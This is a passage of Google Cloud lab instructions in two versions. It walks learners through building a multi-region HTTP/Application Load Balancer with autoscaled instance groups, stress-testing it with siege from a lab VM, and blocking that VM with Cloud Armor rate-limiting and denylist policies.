A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the HTTP Load Balancer.

#### Configure the instance templates

An instance template is an API resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties. Create one instance template for **`us-east4`** and one for **`europe-west1`**.

1. In the Cloud Console, navigate to **Navigation menu** () > **Compute Engine** > **Instance templates**, and then click **Create instance template**.
2. For **Name**, type **`us-east4`-template**.
3. For **Location**, Select **Global**.
4. For **Series**, select **E2**.
5. Click **Networking, disks, security, management, sole-tenancy**.


1. Click the **Management** tab.


1. Under **Metadata**, click **+ADD ITEM** specify the following:

   | Key                | Value                                        |
   | :----------------- | :------------------------------------------- |
   | startup-script-url | gs://cloud-training/gcpnet/httplb/startup.sh |

**Note:** The `startup-script-url` specifies a script that executes when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region, and zone of the VM instance. Feel free to explore [this script](https://storage.googleapis.com/cloud-training/gcpnet/httplb/startup.sh).

1. Click **Networking**, for **Network tags**, type `http-server`.

2. For **Network interfaces** expand default network and set the following values.

   | Property | Value (type value or select option as specified) |
   | :------- | :----------------------------------------------- |
   | Network  | default                                          |
   | Subnet   | default (`us-east4`)                             |

**Note:** The network tag **http-server** ensures that the **HTTP** and **Health Check** firewall rules apply to these instances.

1. Click **Create**.
2. Wait for the instance template to be created.

Now create another instance template for **subnet-b** by copying **`us-east4`-template**:

1. Click on **`us-east4`-template** and then click on the **CREATE SIMILAR** option from the top.
2. For **Name**, type **`europe-west1`-template**.
3. For **Location**, Select **Global**.
4. Click **Networking, disks, security, management, sole-tenancy**.
5. Click **Networking**, expand `default` network.
6. For **Subnet**, select **default (`europe-west1`)**.
7. Click **Create**.

#### Create the managed instance groups

Create a managed instance group in **`us-east4`** and one in **`europe-west1`**.

1. In the **Navigation menu** () click **Compute Engine > Instance groups** in the left menu.

2. Click **Create instance group**.

3. Set the following values, leave all other values at their defaults:

   | Property                                                     | Value (type value or select option as specified) |
   | :----------------------------------------------------------- | :----------------------------------------------- |
   | Name                                                         | `us-east4`-mig                                   |
   | Location                                                     | Multiple zones                                   |
   | Region                                                       | `us-east4`                                       |
   | Instance template                                            | `us-east4`-template                              |
   | Autoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type | CPU utilization                                  |
   | Target CPU utilization                                       | 80, click **Done**.                              |
   | Initialization period                                        | 45                                               |
   | Minimum number of instances                                  | 1                                                |
   | Maximum number of instances                                  | 5                                                |

   **Note:** Managed instance groups offer **autoscaling** capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.

4. Click **Create**.

Now repeat the same procedure for create a second instance group for **`europe-west1`-mig** in **`europe-west1`**:

1. Click **Create Instance group**.

2. Set the following values, leave all other values at their defaults:

   | Property                                                     | Value (type value or select option as specified) |
   | :----------------------------------------------------------- | :----------------------------------------------- |
   | Name                                                         | `europe-west1`-mig                               |
   | Location                                                     | Multiple zones                                   |
   | Region                                                       | `europe-west1`                                   |
   | Instance template                                            | `europe-west1`-template                          |
   | Autoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type | CPU utilization                                  |
   | Target CPU utilization                                       | 80, click **Done**.                              |
   | Initialization period                                        | 45                                               |
   | Minimum number of instances                                  | 1                                                |
   | Maximum number of instances                                  | 5                                                |

3. Click **Create**.

Click **Check my progress** to verify the objective.

Configure instance templates and instance group


Check my progress


#### Verify the backends

Verify that VM instances are being created in both regions and access their HTTP sites.

1. Still in **Compute Engine**, click **VM instances** in the left menu.

2. Notice the instances that start with `us-east4-mig` and `europe-west1-mig`.

   These instances are part of the managed instance groups.

3. Click on the **External IP** of an instance of `us-east4-mig`.

   You should see the **Client IP** (your IP address), the **Hostname** (starts with `us-east4-mig`) and the **Server Location** (a zone in `us-east4`).

4. Click on the **External IP** of an instance of `europe-west1-mig`.

   You should see the **Client IP** (your IP address), the **Hostname** (starts with `europe-west1-mig`) and the **Server Location** (a zone in `europe-west1`).

**Note:** The **Hostname** and **Server Location** identifies where the HTTP Load Balancer sends traffic.


Which of these fields identify the region of the backend?


Hostname


Server Location


Client IP


Submit


### Task 3. Configure the HTTP Load Balancer

Configure the HTTP Load Balancer to balance traffic between the two backends (**`us-east4`-mig** in `us-east4` and **`europe-west1`-mig** in `europe-west1`), as illustrated in the network diagram:


#### Start the configuration

1. In the Cloud Console, click **Navigation menu** () > click **Network Services** > **Load balancing**, and then click **Create load balancer**.
2. Under **Application Load Balancer (HTTP/S)**, click **Next**.
3. Under **Under Public facing or internal only**, select **Public facing (external)**, click **Next**.
4. Under **Global or single region deployment**, select **Best for global workloads**, click **Next**.
5. Under **Load balancer generation**, select **Global external Application Load Balancer**, click **Next**.
6. Click **Configure**.
7. For **Load Balancer Name**, type **http-lb**.

#### Configure the backend

Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.

1. Click on **Backend configuration**.

2. Click **Backend services & backend buckets** dropdown, click **Create a backend service**.

3. Set the following values, leave all other values at their defaults:

   | Property       | Value (select option as specified) |
   | :------------- | :--------------------------------- |
   | Name           | http-backend                       |
   | Instance group | `us-east4`-mig                     |
   | Port numbers   | 80                                 |
   | Balancing mode | Rate                               |
   | Maximum RPS    | 50                                 |
   | Capacity       | 100                                |

   **Note:** This configuration means that the load balancer attempts to keep each instance of **`us-east4`-mig** at or below 50 requests per second (RPS).

4. Click **Done**.

5. Click **Add a backend**.

6. Set the following values, leave all other values at their defaults:

   | Property                    | Value (select option as specified) |
   | :-------------------------- | :--------------------------------- |
   | Instance group              | `europe-west1`-mig                 |
   | Port numbers                | 80                                 |
   | Balancing mode              | Utilization                        |
   | Maximum backend utilization | 80                                 |
   | Capacity                    | 100                                |

   **Note:** This configuration means that the load balancer attempts to keep each instance of **`europe-west1`-mig** at or below 80% CPU utilization.

7. Click **Done**.

8. For **Health Check**, select **Create a health check**.

9. Set the following values, leave all other values at their defaults:

   | Property | Value (select option as specified) |
   | :------- | :--------------------------------- |
   | Name     | http-health-check                  |
   | Protocol | TCP                                |
   | Port     | 80                                 |

   **Note:** Health checks determine which instances receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.

10. Click **Save**.

11. Check the **Enable Logging** box.

12. Set the **Sample Rate** to `1`:

13. Click **Create** to create the backend service, click **OK**.

#### Configure the frontend

The host and path rules determine how your traffic will be directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.

1. Click on **Frontend configuration**.

2. Specify the following, leaving all other values at their defaults:

   | Property   | Value (type value or select option as specified) |
   | :--------- | :----------------------------------------------- |
   | Protocol   | HTTP                                             |
   | IP version | IPv4                                             |
   | IP address | Ephemeral                                        |
   | Port       | 80                                               |

3. Click **Done**.

4. Click **Add Frontend IP and port**.

5. Specify the following, leaving all other values at their defaults:

   | Property   | Value (type value or select option as specified) |
   | :--------- | :----------------------------------------------- |
   | Protocol   | HTTP                                             |
   | IP version | IPv6                                             |
   | IP address | Auto-allocate                                    |
   | Port       | 80                                               |

6. Click **Done**.

**Note:** HTTP(S) load balancing supports both IPv4 and IPv6 addresses for client traffic. Client IPv6 requests are terminated at the global load balancing layer, then proxied over IPv4 to your backends.

#### Review and create the HTTP Load Balancer

1. Click **Review and finalize**.

   

2. Review the **Backend services** and **Frontend**.

   

3. Click **Create**.

4. Wait for the load balancer to be created.

5. Click on the name of the load balancer (**http-lb**).

6. Note the IPv4 and IPv6 addresses of the load balancer for the next task. They will be referred to as `[LB_IP_v4]` and `[LB_IP_v6]`, respectively.

**Note:** The IPv6 address is the one in hexadecimal format.

Click **Check my progress** to verify the objective.

Configure the HTTP Load Balancer


Check my progress


### Task 4. Test the HTTP Load Balancer

Now that you created the HTTP Load Balancer for your backends, verify that traffic is forwarded to the backend service.


The HTTP load balancer should forward traffic to the region that is closest to you.


True


False


#### Access the HTTP Load Balancer

- To test IPv4 access to the HTTP Load Balancer, open a new tab in your browser and navigate to `http://[LB_IP_v4]`. Make sure to replace `[LB_IP_v4]` with the IPv4 address of the load balancer.

**Note:** It might take up to 5 minutes to access the HTTP Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page of one of the backends.

**Note:** Depending on your proximity to **`us-east4`** and **`europe-west1`**, your traffic is either forwarded to a **`us-east4`-mig** or **`europe-west1`-mig** instance.

If you have a local IPv6 address, try the IPv6 address of the HTTP Load Balancer by navigating to `http://[LB_IP_v6]`. Make sure to replace `[LB_IP_v6]` with the IPv6 address of the load balancer.

#### Stress test the HTTP Load Balancer

Create a new VM to simulate a load on the HTTP Load Balancer using `siege`. Then, determine if traffic is balanced across both backends when the load is high.

1. In the Console, navigate to **Navigation menu** () > **Compute Engine** > **VM instances**.

2. Click **Create instance**.

3. Set the following values, leave all other values at their defaults:

   | Property | Value (type value or select option as specified) |
   | :------- | :----------------------------------------------- |
   | Name     | siege-vm                                         |
   | Region   | `us-central1`                                    |
   | Zone     | `us-central1-b`                                  |
   | Series   | E2                                               |

**Note:** Given that **`us-central1`** is closer to **`us-east4`** than to **`europe-west1`**, traffic should be forwarded only to **`us-east4`-mig** (unless the load is too high).

1. Click **Create**.
2. Wait for the **siege-vm** instance to be created.
3. For **siege-vm**, click **SSH** to launch a terminal and connect.
4. Run the following command, to install siege:

```
sudo apt-get -y install siege
```

Copied!

Click **Check my progress** to verify the objective.

Test the HTTP Load Balancer


Check my progress


1. To store the IPv4 address of the HTTP Load Balancer in an environment variable, run the following command, replacing `[LB_IP_v4]` with the IPv4 address:

```
export LB_IP=[LB_IP_v4]
```

Copied!

1. To simulate a load, run the following command:

```
siege -c 250 http://$LB_IP
```

Copied!

The output should look like this:

```
New configuration template added to /home/cloudcurriculumdeveloper/.siege
Run siege -C to view the current settings in that file
```

1. In the Cloud Console, on the **Navigation menu** (), click **Network Services > Load balancing**.
2. Click **Backends**.
3. Click **http-backend**.
4. Navigate to `http-lb`.
5. Click on the **Monitoring** tab.
6. Monitor the **Frontend Location (Total inbound traffic)** between North America and the two backends for 2 to 3 minutes.

At first, traffic should just be directed to **`us-east4`-mig** but as the RPS increases, traffic is also directed to **`europe-west1`-mig**.


This demonstrates that by default traffic is forwarded to the closest backend but if the load is very high, traffic can be distributed across the backends.

1. Return to the **SSH** terminal of **siege-vm**.
2. Press CTRL+C to stop the siege.

### Task 5. Create Cloud Armor rate limiting policy

In this section you will use Cloud Armor to denylist the **siege-vm** from accessing the HTTP Load Balancer by setting a rate limiting policy.

1. In Cloud Shell, create security policy via gcloud:

```
gcloud compute security-policies create rate-limit-siege \
    --description "policy for rate limiting"
```

Copied!

1. Next, add a rate limiting rule:

```
gcloud beta compute security-policies rules create 100 \
    --security-policy=rate-limit-siege     \
    --expression="true" \
    --action=rate-based-ban                   \
    --rate-limit-threshold-count=50           \
    --rate-limit-threshold-interval-sec=120   \
    --ban-duration-sec=300           \
    --conform-action=allow           \
    --exceed-action=deny-404         \
    --enforce-on-key=IP
```

Copied!

1. Attach the security policy to the backend service http-backend:

```
gcloud compute backend-services update http-backend \
    --security-policy rate-limit-siege --global
```

Copied!

1. In the Console, navigate to **Navigation menu** > **Network Security** > **Cloud Armor**.
2. Click `rate-limit-siege`. Your policy should resemble the following:


Click **Check my progress** to verify the objective.

Create Cloud Armor Rate Limiting Policy


Check my progress


### Task 6. Verify the security policy

1. Return to the SSH terminal of siege-vm.
2. Run a curl against the LB IP to verify you can still connect to it, should receive a 200 response:

```
curl http://$LB_IP
```

Copied!

1. In the SSH terminal of siege-vm, to simulate a load, run the following command:

```
siege -c 250 http://$LB_IP
```

Copied!

The command will not generate any output.

1. Explore the security policy logs to determine if this traffic is also blocked.

2. In the Console, navigate to **Navigation menu > Network Security > Cloud Armor policies**.

3. Click **rate-limit-siege**.

4. Click **Logs**.

5. Click **View policy logs**.

6. On the Logging page, make sure to clear all the text in the Query preview.

7. Select resource to **Application Load Balancer > http-lb-forwarding-rule > http-lb** then click **Apply**.

8. Now click **Run Query**.

9. Expand a log entry in Query results.

   

10. Expand **httpRequest**.

The request should be from the **siege-vm** IP address. If not, expand another log entry.

1. Expand `jsonPayload`.

2. Expand `enforcedSecurityPolicy`.

   

Notice that the `configuredAction` is to **DENY** with the name **rate-limit-siege**.

**Note:** Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.

### Congratulations!

You configured an HTTP Load Balancer with backends in `us-east4` and `europe-west1`. Then, you stress tested the Load Balancer with a VM and denylisted the IP address via rate limiting with Cloud Armor. You were able to explore the security policy logs to identify why the traffic was blocked.


## LAB - Application Load Balancer with Cloud Armor

### Overview

Google Cloud Application Load Balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an Application Load Balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.

Cloud Armor IP allowlist/denylist enable you to restrict or allow access to your Application Load Balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your Virtual Private Cloud (VPC) networks.

In this lab, you configure an Application Load Balancer with global backends, as shown in the diagram below. Then, you stress test the Load Balancer and denylist the stress test IP with Cloud Armor.


#### Objectives

In this lab, you learn how to perform the following tasks:

- Create HTTP and health check firewall rules
- Configure two instance templates
- Create two managed instance groups
- Configure an Application Load Balancer with IPv4 and IPv6
- Stress test an Application Load Balancer
- Denylist an IP address to restrict access to an Application Load Balancer

### Setup and requirements

#### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

#### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   "Username"
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   "Password"
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Task 1. Configure HTTP and health check firewall rules

Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.

#### Create the HTTP firewall rule

Create a firewall rule to allow HTTP traffic to the backends.

1. In the Cloud console, navigate to **Navigation menu** () > **VPC network** > **Firewall**.

2. Notice the existing **ICMP**, **internal**, **RDP**, and **SSH** firewall rules.

   Each Google Cloud project starts with the **default** network and these firewall rules.

3. Click **Create Firewall Rule**.

4. Set the following values, leave all other values at their defaults:

   | Property            | Value (type value or select option as specified)             |
   | :------------------ | :----------------------------------------------------------- |
   | Name                | default-allow-http                                           |
   | Network             | default                                                      |
   | Targets             | Specified target tags                                        |
   | Target tags         | http-server                                                  |
   | Source filter       | IPv4 Ranges                                                  |
   | Source IPv4 ranges  | 0.0.0.0/0                                                    |
   | Protocols and ports | Specified protocols and ports, and then *check* TCP, *type:* 80 |

Make sure to include the **/0** in the **Source IPv4 ranges** to specify all networks.

1. Click **Create**.

#### Create the health check firewall rules

Health checks determine which instances of a load balancer can receive new connections. For Application Load Balancing, the health check probes to your load balanced instances come from addresses in the ranges `130.211.0.0/22` and `35.191.0.0/16`. Your firewall rules must allow these connections.

1. Still in the **Firewall policies** page, click **Create Firewall Rule**.

2. Set the following values, leave all other values at their defaults:

   | Property            | Value (type value or select option as specified)    |
   | :------------------ | :-------------------------------------------------- |
   | Name                | default-allow-health-check                          |
   | Network             | default                                             |
   | Targets             | Specified target tags                               |
   | Target tags         | http-server                                         |
   | Source filter       | IPv4 Ranges                                         |
   | Source IPv4 ranges  | `130.211.0.0/22`, `35.191.0.0/16`                   |
   | Protocols and ports | Specified protocols and ports, and then *check* TCP |

   **Note:** Make sure to enter the two **Source IPv4 ranges** one-by-one and press SPACE in between them.

3. Click **Create**.

Click *Check my progress* to verify the objective.

Configure HTTP and health check firewall rules


Check my progress


### Task 2. Configure instance templates and create instance groups

A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the Application Load Balancer.

#### Configure the instance templates

An instance template is an API resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties.

Create one instance template for `Region 1` and one for `Region 2`.

1. In the Cloud console, go to **Navigation menu** () > **Compute Engine** > **Instance templates**, and then click **Create instance template**.

2. For **Name**, type **`Region 1`-template**.

3. For **Location**, Select **Global**.

4. For **Series**, select **E2**.

5. For **Machine Type**, select **e2-micro**.

6. Click **Advanced Options**.

7. Click **Networking**. Set the following value and leave all other values at their defaults:

   | Property     | Value (type value or select option as specified) |
   | :----------- | :----------------------------------------------- |
   | Network tags | http-server                                      |

8. Click **default** under **Network interfaces**. Set the following values and leave all other values at their defaults:

   | Property   | Value (type value or select option as specified) |
   | :--------- | :----------------------------------------------- |
   | Network    | default                                          |
   | Subnetwork | default `Region 1`                               |

   Click **Done**.

The network tag **http-server** ensures that the **HTTP** and **Health Check** firewall rules apply to these instances.

1. Click the **Management** tab.

2. Under **Metadata**, click **+ ADD ITEM** and specify the following:

   | Key                | Value                                        |
   | :----------------- | :------------------------------------------- |
   | startup-script-url | gs://cloud-training/gcpnet/httplb/startup.sh |

The `startup-script-url` specifies a script that executes when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region, and zone of the VM instance. Feel free to explore [this script](https://storage.googleapis.com/cloud-training/gcpnet/httplb/startup.sh).

1. Click **Create**.
2. Wait for the instance template to be created.

Now create another instance template for **subnet-b** by copying **`Region 1`-template**:

1. Click on **`Region 1`-template** and then click on the **+CREATE SIMILAR** option from the top.
2. For **Name**, type **`Region 2`-template**.
3. Ensure **Location** is selected **Global**.
4. Click **Advanced Options**.
5. Click **Networking**.
6. Ensure **http-server** is added as a **network tag**.
7. In **Network interfaces**, for **Subnetwork**, select **default (`Region 2`)**.
8. Click **Done**.
9. Click **Create**.

#### Create the managed instance groups

Create a managed instance group in **`Region 1`** and one in **`Region 2`**.

1. Still in **Compute Engine**, click **Instance groups** in the left menu.

2. Click **Create instance group**.

3. Set the following values, leave all other values at their defaults:

   | Property                                           | Value (type value or select option as specified)             |
   | :------------------------------------------------- | :----------------------------------------------------------- |
   | Name                                               | `Region 1`-mig (if required, remove extra space from the name) |
   | Instance template                                  | `Region 1`-template                                          |
   | Location                                           | Multiple zones                                               |
   | Region                                             | `Region 1`                                                   |
   | Minimum number of instances                        | 1                                                            |
   | Maximum number of instances                        | 2                                                            |
   | Autoscaling signals > Click dropdown > Signal type | CPU utilization                                              |
   | Target CPU utilization                             | 80, click **Done**.                                          |
   | Initialization period                              | 45                                                           |

Managed instance groups offer **autoscaling** capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.

1. Click **Create**.

Now repeat the same procedure to create a second instance group for **`Region 2`-mig** in **`Region 2`**:

1. Click **Create Instance group**.

2. Set the following values, leave all other values at their defaults:

   | Property                                           | Value (type value or select option as specified) |
   | :------------------------------------------------- | :----------------------------------------------- |
   | Name                                               | `Region 2`-mig                                   |
   | Instance template                                  | `Region 2`-template                              |
   | Location                                           | Multiple zones                                   |
   | Region                                             | `Region 2`                                       |
   | Minimum number of instances                        | 1                                                |
   | Maximum number of instances                        | 2                                                |
   | Autoscaling signals > Click dropdown > Signal type | CPU utilization                                  |
   | Target CPU utilization                             | 80, click **Done**.                              |
   | Initialization period                              | 45                                               |

3. Click **Create**.

Click *Check my progress* to verify the objective.

Configure instance templates and instance group


Check my progress


#### Verify the backends

Verify that VM instances are being created in both regions and access their HTTP sites.

1. Still in **Compute Engine**, click **VM instances** in the left menu.

2. Notice the instances that start with `Region 1`-mig and `Region 2`-mig.

   These instances are part of the managed instance groups.

3. Click on the **External IP** of an instance of `Region 1`-mig.

   You should see the **Client IP** (your IP address), the **Hostname** (starts with `Region 1`-mig) and the **Server Location** (a zone in `Region 1`).

4. Click on the **External IP** of an instance of `Region 2`-mig.

   You should see the **Client IP** (your IP address), the **Hostname** (starts with `Region 2`-mig) and the **Server Location** (a zone in `Region 2`).

**Note:** The **Hostname** and **Server Location** identifies where the Application Load Balancer sends traffic.


Which of these fields identify the region of the backend?


Server Location


Client IP


Hostname


Submit


### Task 3. Configure the Application Load Balancer

Configure the Application Load Balancer to balance traffic between the two backends (**`Region 1`-mig** in `Region 1` and **`Region 2`-mig** in `Region 2`), as illustrated in the network diagram:


#### Start the configuration

1. In the Cloud console, click **Navigation menu** () > click **VIEW ALL PRODUCTS** > **Networking** > **Network Services** > **Load balancing**.
2. click **Create load balancer**.
3. Under **Application Load Balancer HTTP(S)**, click Next.
4. For **Public facing or internal**, select **Public facing (external)** and click Next.
5. For **Global or single region deployment**, select **Best for global workloads** and click Next.
6. For **Create load balancer**, click **Configure**.
7. Set **Load Balancer Name** to `http-lb`.

#### Configure the frontend

The host and path rules determine how your traffic will be directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.

1. Click on **Frontend configuration**.

2. Specify the following, leaving all other values at their defaults:

   | Property   | Value (type value or select option as specified) |
   | :--------- | :----------------------------------------------- |
   | Protocol   | HTTP                                             |
   | IP version | IPv4                                             |
   | IP address | Ephemeral                                        |
   | Port       | 80                                               |

3. Click **Done**.

4. Click **Add Frontend IP and port**.

5. Specify the following, leaving all other values at their defaults:

   | Property   | Value (type value or select option as specified) |
   | :--------- | :----------------------------------------------- |
   | Protocol   | HTTP                                             |
   | IP version | IPv6                                             |
   | IP address | Auto-allocate                                    |
   | Port       | 80                                               |

6. Click **Done**.

Application Load Balancing supports both IPv4 and IPv6 addresses for client traffic. Client IPv6 requests are terminated at the global load balancing layer, then proxied over IPv4 to your backends.

#### Configure the backend

Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.

1. Click on **Backend configuration**.

2. For **Backend services & backend buckets**, click **Create a backend service**.

3. Set the following values, leave all other values at their defaults:

   | Property       | Value (select option as specified) |
   | :------------- | :--------------------------------- |
   | Name           | http-backend                       |
   | Instance group | `Region 1`-mig                     |
   | Port numbers   | 80                                 |
   | Balancing mode | Rate                               |
   | Maximum RPS    | 50                                 |
   | Capacity       | 100                                |

This configuration means that the load balancer attempts to keep each instance of **`Region 1`-mig** at or below 50 requests per second (RPS).

1. Click **Done**.

2. Click **Add a backend**.

3. Set the following values, leave all other values at their defaults:

   | Property                    | Value (select option as specified) |
   | :-------------------------- | :--------------------------------- |
   | Instance group              | `Region 2`-mig                     |
   | Port numbers                | 80                                 |
   | Balancing mode              | Utilization                        |
   | Maximum backend utilization | 80                                 |
   | Capacity                    | 100                                |

This configuration means that the load balancer attempts to keep each instance of **`Region 2`-mig** at or below 80% CPU utilization.

1. Click **Done**.

2. For **Health Check**, select **Create a health check**.

3. Set the following values, leave all other values at their defaults:

   | Property | Value (select option as specified) |
   | :------- | :--------------------------------- |
   | Name     | http-health-check                  |
   | Protocol | TCP                                |
   | Port     | 80                                 |

Health checks determine which instances receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.

1. Click **Save**.
2. Check the **Enable Logging** box.
3. Set the **Sample Rate** to `1`.
4. Click **Create** to create the backend service.
5. Click **Ok**.

#### Review and create the Application Load Balancer

1. Click on **Review and finalize**.
2. Review the **Backend** and **Frontend** services.
3. Click on **Create**.
4. Wait for the load balancer to be created.
5. Click on the name of the load balancer (**http-lb**).
6. Note the IPv4 and IPv6 addresses of the load balancer for the next task. They will be referred to as `[LB_IP_v4]` and `[LB_IP_v6]`, respectively.

**Note:** The IPv6 address is the one in hexadecimal format.

Click *Check my progress* to verify the objective.

Configure the Application Load Balancer


Check my progress


### Task 4. Test the Application Load Balancer

Now that you created the Application Load Balancer for your backends, verify that traffic is forwarded to the backend service.


The Application Load Balancer should forward traffic to the region that is closest to you.


True


False


#### Access the Application Load Balancer

To test IPv4 access to the Application Load Balancer, open a new tab in your browser and navigate to `http://[LB_IP_v4]`. Make sure to replace `[LB_IP_v4]` with the IPv4 address of the load balancer.

**Note:** It might take up to 5 minutes to access the Application Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page of one of the backends.

**Note:** Depending on your proximity to **`Region 1`** and **`Region 2`**, your traffic is either forwarded to a **`Region 1`-mig** or **`Region 2`-mig** instance.

If you have a local IPv6 address, try the IPv6 address of the Application Load Balancer by navigating to `http://[LB_IP_v6]`. Make sure to replace `[LB_IP_v6]` with the IPv6 address of the load balancer.

#### Stress test the Application Load Balancer

Create a new VM to simulate a load on the Application Load Balancer using `siege`. Then, determine if traffic is balanced across both backends when the load is high.

1. In the console, navigate to **Navigation menu** () > **Compute Engine** > **VM instances**.

2. Click **Create instance**.

3. In the **Machine configuration**:

   Select the following values:

   | Property | Value (type value or select option as specified) |
   | :------- | :----------------------------------------------- |
   | Name     | siege-vm                                         |
   | Region   | `Region 3`                                       |
   | Zone     | `Zone 3`                                         |
   | Series   | `E2`                                             |

Given that **`Region 3`** is closer to **`Region 1`** than to **`Region 2`**, traffic should be forwarded only to **`Region 1`-mig** (unless the load is too high).

1. Click **Create**.
2. Wait for the **siege-vm** instance to be created.
3. For **siege-vm**, click **SSH** to launch a terminal and connect.
4. Run the following command, to install siege:

```
sudo apt-get -y install siege
```

Copied!

1. To store the IPv4 address of the Application Load Balancer in an environment variable, run the following command, replacing `[LB_IP_v4]` with the IPv4 address:

```
export LB_IP=[LB_IP_v4]
```

Copied!

1. To simulate a load, run the following command:

```
siege -c 150 -t120s http://$LB_IP
```

Copied!

1. In the Cloud console, click **Navigation menu** () > click **VIEW ALL PRODUCTS** > **Networking** > **Network Services** > **Load balancing**.
2. Click **Backends**.
3. Click **http-backend**.
4. Navigate to **http-lb**.
5. Click on the **Monitoring** tab.
6. Monitor the **Frontend Location (Total inbound traffic)** between North America and the two backends for 2 to 3 minutes.

At first, traffic should just be directed to **`Region 1`-mig** but as the RPS increases, traffic is also directed to **`Region 2`**.

This demonstrates that by default traffic is forwarded to the closest backend but if the load is very high, traffic can be distributed across the backends.

1. Return to the **SSH** terminal of **siege-vm**.
2. Press **CTRL+C** to stop siege if it's still running.

The output should look like this:

```
New configuration template added to /home/student-02-dd02c94b8808/.siege
Run siege -C to view the current settings in that file
{       "transactions":                        24729,
        "availability":                       100.00,
        "elapsed_time":                       119.07,
        "data_transferred":                     3.77,
        "response_time":                        0.66,
        "transaction_rate":                   207.68,
        "throughput":                           0.03,
        "concurrency":                        137.64,
        "successful_transactions":             24729,
        "failed_transactions":                     0,
        "longest_transaction":                 10.45,
        "shortest_transaction":                 0.03
}
```

### Task 5. Denylist the siege-vm

Use Cloud Armor to denylist the **siege-vm** from accessing the Application Load Balancer.

#### Create the security policy

Create a Cloud Armor security policy with a denylist rule for the **siege-vm**.

1. In the console, navigate to **Navigation menu** () > **Compute Engine** > **VM instances**.
2. Note the **External IP** of the **siege-vm**. This will be referred to as `[SIEGE_IP]`.

**Note:** There are ways to identify the external IP address of a client trying to access your Application Load Balancer. For example, you could examine traffic captured by [VPC Flow Logs in BigQuery](https://cloud.google.com/vpc/docs/using-flow-logs#exporting_logs_to_bigquery_name_short_pubsub_name_short_and_custom_targets) to determine a high volume of incoming requests.

1. In the Cloud console, click **Navigation menu** () > click **VIEW ALL PRODUCTS** > **Networking** > **Network Security** > **Cloud Armor policies**.

2. Click **Create policy**.

3. Set the following values, leave all other values at their defaults:

   | Property            | Value (type value or select option as specified) |
   | :------------------ | :----------------------------------------------- |
   | Name                | denylist-siege                                   |
   | Default rule action | Allow                                            |

4. Click **Next step**.

5. Click **Add a rule**.

6. Set the following values, leave all other values at their defaults:

   | Property          | Value (type value or select option as specified) |
   | :---------------- | :----------------------------------------------- |
   | Condition > Match | *Enter the SIEGE_IP*                             |
   | Action            | Deny                                             |
   | Response code     | 403 (Forbidden)                                  |
   | Priority          | 1000                                             |

7. Click **Save Change to Rule**.

8. Click **Next step**.

9. Click **Add Target**.

10. For **Type**, select **Backend service (external application load balancer)**.

11. For **Target**, select **http-backend** and if prompted confirm **Replace**.

12. Click **Create policy**.

**Note:** Alternatively, you could set the default rule to **Deny** and only allowlist or allow traffic from authorized users/IP addresses.

